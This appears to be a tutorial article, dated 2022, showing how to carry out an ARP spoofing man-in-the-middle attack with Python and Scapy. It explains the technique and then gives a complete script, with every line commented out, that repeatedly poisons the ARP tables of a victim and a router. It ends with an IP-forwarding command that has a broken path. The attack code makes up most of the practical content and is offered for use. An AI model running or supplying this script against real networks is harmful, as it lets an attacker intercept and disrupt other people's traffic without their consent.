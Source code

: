 ```yaml
---
title: "How to make a ARP Spoofing attack using Scapy  in python"
author: "mtnvdsk"
image: "thumbnail.jpg"
date: "2022-11-25"
---
```


In this article, we are going to discuss the ARP Spoofing attack using [Python](https://www.geeksforgeeks.org/python-programming-language/) programming. Before going deep into the code first let's understand some basic topics of what is ARP Spoofing and what it does.

### **ARP Spoofing:**

The ARP spoofing is the technique to fool a computer or a device which accepts the ARP response packets even though the device does not request it. As the device accepts the response packet without its knowledge, we can easily mess up with the hack and the hacker takes the advantage of this by sending a modified ARP response packet which contains the modified mac address of the client with the hacker ip address to the router to fool and then simultaneously send the same ARP response packet to the victim saying that I am router. To achieve this attack the hacker sends an ARP response packet to the victim saying that "I am the router with the mac-address (hacker machine address)"and at the same time the hacker sends the same ARP response packet to the router saying that "I am the victim with this mac-address (hacker machine mac-address). Due to ARP request the victim and router will modify their network tables with the respective mac-address provided by the hacker. This can be easily understood by the below figure.

![ARP Spoofing](https://media.geeksforgeeks.org/wp-content/uploads/20221105180856/before.png)

![After the attack the connection between the victim and the hacker](https://media.geeksforgeeks.org/wp-content/uploads/20221105181137/after.png)

## How to make a ARP Spoofing attack using Scapy  in Python

Note: Here the attacks are performed under a virtual environment (virtual box) with Linux operating system as the hacker machine, Windows 10 as the victim machine and our home router as a router. This attack only works when all the devices are in the same network. Here, we are using NAT network to create this attack.

**Step 1:** To implement this code in Python we are going to use a package called scapy. First, we are going to create an ARP packet using the scapy package. Here, we are not creating an ARP request, but instead, we are creating an ARP response packet .so, we are going to let us know what are fields we need to set in order to make the ARP packet as a response packet in python as follows. In scapy the ARP packet is created using the syntax as shown below.

```python
#import scapy.all as scapy

#scapy.ARP()

# To list the fields in ARP()

#print(scapy.ls(scapy.ARP()))

```

**Output:** ![Output](https://media.geeksforgeeks.org/wp-content/uploads/20221014213947/scapyarppacketfields.png)

**Step 2:** Now let's understand the code by first getting the mac address of the device with it's ip address with the below code. First, we are using the above-mentioned scapy module to generate an ARP packet to the given IP address.

```python
# creating an ARP request to the ip address
#arp_request = scapy.ARP(pdst=ip)    

```

Then creating a broadcast message with mac address to broadcast mac that is "ff:ff:ff:ff:ff:ff" as shown below.

```python
# setting the denstination mac address to broadcast mac
#broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff")   
```

Then we combine the broadcast packet with the ARP request.

```python
# combining the ARP packet with the broadcast message
#arp_request_broadcast = broadcast / arp_request
```

Then sent to the victim ip address and to do so we use scapy.srp() as shown below.

```python
#answ = scapy.srp(arp_request_broadcast, timeout=1, verbose=False)[0]
```

Step 3: Now let's combine the mac address statements above-mentioned with in a function and then you them with our while loop to continuously fool the devices.

```python
#!/usr/bin/env python
# import time
# import sys
# import scapy.all as scapy
# # mac address function which will return
# # the mac_address of the provided ip address


# def get_mac(ip):
#     # creating an ARP request to the ip address
#     arp_request = scapy.ARP(pdst=ip)
#     # setting the denstination mac address to broadcast mac
#     broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff")
#     # combining the ARP packet with the broadcast message
#     arp_request_broadcast = broadcast / arp_request
    
#     # return a list of mac addresses with respective
#     # mac addresses and ip addresses.
#     answ = scapy.srp(arp_request_broadcast, timeout=1, verbose=False)[0]
#     # we choose the first mac address and select
#     # the mac address using the field hwsrc
#     return answ[0][1].hwsrc


# def arp_spoof(target_ip, spoof_ip):
#     """" Here the ARP packet is set to response and
#     pdst is set to the target ip 
#     either it is for victim or router and the hwdst
#     is the mac address of the ip provided
#     and the psrc is the spoofing ip address
#     to manipulate the packet"""
    
#     packet = scapy.ARP(op=2, pdst=target_ip,
#                       hwdst=get_mac(target_ip), psrc=spoof_ip)
#     scapy.send(packet, verbose=False)


# victim_ip = input()  # taking the victim ip_address
# router_ip = input()  # taking the router ip address
# sent_packets_count = 0  # initializing the packet counter
# while True:
#     sent_packets_count += 2
#     arp_spoof(victim_ip, router_ip)
#     arp_spoof(router_ip, victim_ip)
#     print("[+] Packets sent " + str(sent_packets_count), end="\r")
#     sys.stdout.flush()
#     time.sleep(2)
```

![Output](https://media.geeksforgeeks.org/wp-content/uploads/20221014213947/outputconsole.png)

After implementing the program the victim does not get the internet connection because the packets are forwarded to hacker's machine and in order to allow the flow of packets we need to run a command in a Linux shell as below.

```bash
echo 1 > /procs/sys/net/ipv4/ip_forward
```

The victim ARP table is shown below: ![Output](https://media.geeksforgeeks.org/wp-content/uploads/20221014213948/windowsarptablechange.png)
